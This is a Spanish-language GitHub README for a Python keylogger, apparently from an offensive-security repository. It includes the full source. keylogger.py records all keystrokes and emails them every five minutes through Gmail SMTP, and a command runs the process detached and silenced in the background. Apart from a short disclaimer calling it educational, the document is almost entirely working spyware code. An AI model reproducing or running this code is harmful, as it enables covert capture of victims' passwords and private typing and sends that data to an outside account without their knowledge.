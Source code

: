 Bienvenido a este repositorio, diseñado para proporcionar una herramienta eficaz y sencilla para la captura de teclas, también conocido como keylogger, utilizando Python. Esta implementación no solo se enfoca en registrar las pulsaciones de teclado, sino también en enviar los registros a través de correo electrónico de manera segura y automatizada.

# Uso y Propósito
Este proyecto está diseñado con fines educativos y de prueba. Proporciona una manera práctica de aprender sobre la captura de teclas y el manejo de correos electrónicos en Python. Se recomienda usar esta herramienta de manera ética y respetuosa, siempre con el consentimiento adecuado si se prueba en sistemas ajenos.

# Para comenzar, asegúrate de cumplir con los siguientes requisitos:

- Cuenta de Gmail: Necesitarás una cuenta de Gmail para enviar los registros por correo electrónico.
- Contraseña de Aplicación: Debes generar una contraseña de aplicación para tu cuenta de Google. Puedes crearla accediendo a Contraseñas de Aplicaciones.
- Instalación de Pynput: Este proyecto utiliza la biblioteca pynput para capturar las teclas. Instálala ejecutando el siguiente comando:
```bash
pip3 install pynput
```

# Configuración
Una vez generada la contraseña de aplicación (por ejemplo, yxkijwbtebfukhvc), introdúcela sin espacios en el código.
- Acceder a https://myaccount.google.com/apppasswords para crear contraseña de aplicación para tu cuenta google
![Pasted image 20240628130101](https://github.com/Frib1t/Python_Ofensivo/assets/102589078/e7938d60-c808-4fd0-b098-24722f5397b8)

# Ejecución:
```bash
python3 main.py &> /dev/null & disown
```
# Descripción de Archivos
keylogger.py: Contiene la clase Keylogger que maneja la captura de teclas y el envío de correos electrónicos. Utiliza pynput para escuchar las teclas presionadas y smtplib junto con email.mime.text.MIMEText para enviar los registros.

main.py: Es el script principal que inicia el keylogger y maneja la señal de interrupción para finalizar la ejecución de manera segura.

# keylogger.py
```python
#! /usr/bin/env python3
import threading
import pynput.keyboard
import smtplib
from email.mime.text import MIMEText


class Keylogger:
	def __init__(self):
		self.log = ""
		self.request_shutdown = False
		self.timer = None
		self.is_first_run = True

	def pressed_key(self, key):
		try:
			self.log += str(key.char)	
		except AttributeError:
			special_keys = {key.space: " ", key.backspace:" Backspace ", key.enter: " Enter ", key.shift:" Shift ", key.alt:" Alt ", key.ctrl:" Ctrl ", key.alt:" Alt "}
			self.log += special_keys.get(key, f" {str(key)} ")
		# print(self.log)
	
	def send_email(self,subject, body, sender, recipients, password):
	    msg = MIMEText(body)
	    msg['Subject'] = subject
	    msg['From'] = sender
	    msg['To'] = ', '.join(recipients)
	    
	    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
	       smtp_server.login(sender, password)
	       smtp_server.sendmail(sender, recipients, msg.as_string())
	    print(colored(f"\n[+] Email sent Successfully!\n", yellow))

	def report(self):
		email_body = "[+] El keylogger se ha iniciado exitosamente" if self.is_first_run else self.log
		self.send_email("Keylogger Report", email_body, "email@gmail.com", ["email@gmail.com"], "yxkijwbtebfukhvc")
		self.log = ""

		if self.is_first_run:
			self.is_first_run = False

		if not self.request_shutdown:
			self.timer = threading.Timer(300, self.report)
			self.timer.start()

	def shutdown(self):
		self.request_shutdown = True
		if self.timer:
			self.timer.cancel()


	def start(self):
		keyboard_listener = pynput.keyboard.Listener(on_press=self.pressed_key)
		
		with keyboard_listener:
			self.report()
			keyboard_listener.join()



```

# main.py
```python
#!/usr/bin/env python3
import signal
import sys
from termcolor import colored
from keylogger import Keylogger

def def_handler(sig, frame):
	print(colored(f"\n[!] Saliendo...\n", 'red'))
	my_keylogger.shutdown()
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
	my_keylogger = Keylogger()
	my_keylogger.start()
```
